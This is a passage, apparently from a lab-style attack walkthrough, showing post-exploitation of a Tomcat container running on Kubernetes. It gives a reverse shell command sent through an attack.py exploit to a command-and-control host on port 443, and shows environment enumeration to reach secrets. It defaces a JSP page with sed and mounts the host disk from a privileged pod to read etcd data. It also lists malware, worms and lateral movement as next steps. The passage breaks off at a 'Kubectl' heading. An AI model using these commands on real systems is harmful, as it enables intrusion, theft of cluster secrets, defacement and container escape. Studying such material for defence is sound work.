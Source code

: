 Now that netcat is installed we can establish an outbound connection from our target to our command and control server. Since we are using port 443 it is likely that this traffic would be allowed outbound by the target's network:

```bash
python3 attack.py http://192.168.65.2:30004/ "bash -i >& /dev/tcp/192.168.65.2/443 0>&1"
```

We now have a reverse shell into the target.

Use the following in the command and control shell to allow clearing the console:
```bash
export TERM=xterm
```

We can see that this is a Docker host and running on Kubernetes:
```bash
ls -la
env
```

If we had mounted any secrets via Environment Variables we could now have access to them.

#### Make Changes to Target

Now that we have access we can make any change that we want to the system. This may include:

- Adding malware
- Creating a command and control server inside the target's network perimeter
- Deploying a worm
- Adding malware to their website being hosted
- Vandalizing the website
- Moving laterally within the target's network

The following can be used to make a change to the showcase screen which we have already found in our reconnaissance.

```bash
cd /usr/local/tomcat/webapps/ROOT
cat showcase.jsp
sed -i 's/Welcome!/You have been Hacked!/g' showcase.jsp
cat showcase.jsp
```

#### Bind to Host

If the pod is a privileged pod then it is possible to bind to the host's file system.

```bash
fdisk -l
mkdir /host
mount /dev/sda1 /host/
cd /host
cat etcd/member/snap/db
```

If the pod is on a master node then you will be able to see anything in etcd.

#### Kubectl

